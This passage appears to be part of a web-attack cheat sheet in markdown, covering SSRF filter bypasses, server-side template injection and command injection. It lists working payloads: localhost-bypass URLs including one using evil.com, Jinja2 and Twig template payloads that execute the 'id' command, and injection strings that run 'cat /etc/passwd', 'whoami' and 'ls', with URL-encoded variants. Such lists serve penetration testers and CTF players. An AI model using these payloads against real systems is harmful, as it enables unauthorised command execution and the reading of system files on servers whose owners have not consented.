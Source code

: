 #### ⚙️ Bypass Filters

```bash
http://127.1/
http://[::1]/
http://localhost@evil.com/
```

***

### VII. ⚙️ Server-Side Template Injection (SSTI)

#### 🧠 Identify Framework

```
{{7*7}}  → Jinja2 (Python)
<%= 7*7 %>  → JSP / Ruby ERB
${7*7}  → Spring / Thymeleaf
```

#### 💣 Exploit Examples

**Jinja2 (Python Flask)**

```jinja2
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

**Twig (PHP)**

```twig
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('id')}}
```

***

### VIII. 💣 Remote Code Execution (RCE)

#### ⚙️ Command Injection

```bash
ping -c 4 10.10.14.2; cat /etc/passwd
```

#### 🧠 Bypass Filters

```bash
|| ls
|cat /etc/passwd|
$(id)
`whoami`
```

#### ⚙️ URL Encoded Payloads

```
%3bcat%20/etc/passwd
%26id
```
